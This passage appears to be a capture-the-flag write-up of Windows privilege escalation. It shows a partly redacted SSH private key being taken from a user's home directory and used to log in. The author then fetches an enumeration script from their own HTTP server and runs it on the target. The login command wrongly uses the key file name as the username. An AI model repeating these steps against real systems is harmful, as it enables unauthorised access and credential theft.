 Here we can take two paths and i will showcase both of them.
<br>

# Privesc Windows

Inside the home directory of dev-datasci we can see a strange file:
```bash
cat /home/dev-datasci/dev-datasci-lowpriv_id_ed25519
```
output:
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBUoe5ZSe[REDACTED]aaaaaaaaaaaagEhudzK+JSs+YwAAAKjQ358n0N+f
JwAAAAtzc2gtZWQyNTUx[REDACTED]aaaaaaaaaaaaWt4dbvxKor+dNggEhudzK+JSs+Yw
AAAED9OhQumFOiC3a05K[REDACTED]aaaaaaaaaaaaYfKZWVSh7llJ7PMLrlRmFa3h1u/E
qiv502CASG53Mr4lKz5j[REDACTED]aaaaaaaaaaaaxvd3ByaXZAREVWLURBVEFTQ0ktSl
VQAQI=
-----END OPENSSH PRIVATE KEY-----
```
this seems to be an id_rsa key for ssh, in fact we had a port 22 open.
So i downloaded the file with pwncat:
```bash
Ctrl + d
download /home/dev-datasci/dev-datasci-lowpriv_id_ed25519 dev-datasci-lowpriv_id_ed25519
```

We can get the ssh user by converting from base64 the key (also the name tell us what is the user).
```bash
echo '<key content>' | base64 -d
```
output:
```bash
[REDACTED]�Tf����Ī+��`�Hnw2�%+>c#dev-datasci-lowpriv@DEV-DATASCI-JUP 
```
so we know that the username is `dev-datasci-lowpriv`, this means that we can login with:
```bash
chmod 600 dev-datasci-lowpriv_id_ed25519
ssh -i dev-datasci-lowpriv_id_ed25519 dev-datasci-lowpriv_id_ed25519@10.10.134.105
```
Now we are inside the windows system.
I runned a bunch of command for enumerate the system, then i uploaded the [PrivescCheck](https://github.com/itm4n/PrivescCheck) script via python server.
local machine:
```bash
wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
python3 -m http.server 80
```
remote machine:
```powershell
Invoke-WebRequest -Uri http://10.8.79.118/PrivescCheck.ps1 -Outfile PrivescCheck.ps1
. .\PrivescCheck.ps1
Invoke-PrivescCheck -Extended
```
output:
	